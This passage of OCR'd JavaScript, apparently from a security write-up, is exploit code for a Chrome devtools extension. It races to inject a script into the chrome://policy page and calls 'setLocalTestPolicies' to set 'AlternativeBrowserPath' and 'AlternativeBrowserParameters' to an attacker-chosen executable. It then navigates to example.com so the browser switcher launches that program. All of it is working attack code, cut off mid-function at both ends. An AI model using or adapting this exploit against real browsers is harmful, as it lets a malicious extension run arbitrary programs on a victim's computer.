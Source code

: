 ```js
        { //set the executable path to launch
          name: "AlternativeBrowserPath",
          value: ${JSON.stringify(executable)},
          level: 1,
          source: 1,
          scope: 1
        }, 
        { //set the arguments for the executable
          name: "AlternativeBrowserParameters",
          value: ${JSON.stringify(flags)},
          level: 1,
          source: 1,
          scope: 1
        }
      ]);

      //set the policies listed above
      await cr.sendWithPromise("setLocalTestPolicies", policy, "");

      setTimeout(() => {
        //navigate to example.com, which will trigger the browser switcher
        location.href = "https://example.com";
  
        //open a new page so that there is still a tab remaining after this
        open("about:blank");  
      }, 100);
    })()`
  });
}

//interval to keep trying to inject the content script
//there's a tiny window of time in which the content script will be
//injected into a protected page, so this needs to run frequently
function start_interval() {
  setInterval(() => {
    //loop to increase our odds
    for (let i=0; i<3; i++) {
      inject_script(); 
    }
  }, 0);  
}

async function main() {
  //start the interval to inject the content script
  start_interval();

  //navigate the inspected page to chrome://policy
  let tab = await chrome.tabs.get(chrome.devtools.inspectedWindow.tabId);
  await chrome.tabs.update(tab.id, {url: "chrome://policy"});
  
  //if this times out we need to retry or abort
  await new Promise((resolve) => {setTimeout(resolve, 1000)});
  let new_tab = await chrome.tabs.get(tab.id);

  //if we're on the policy page, the content script didn't get injected
  if (new_tab.url.startsWith("chrome://policy")) {
    //navigate back to the original page
    await chrome.tabs.update(tab.id, {url: tab.url});
    
    //discarding and reloading the tab will close devtools
    setTimeout(() => {
      chrome.tabs.discard(tab.id);
    }, 100)
```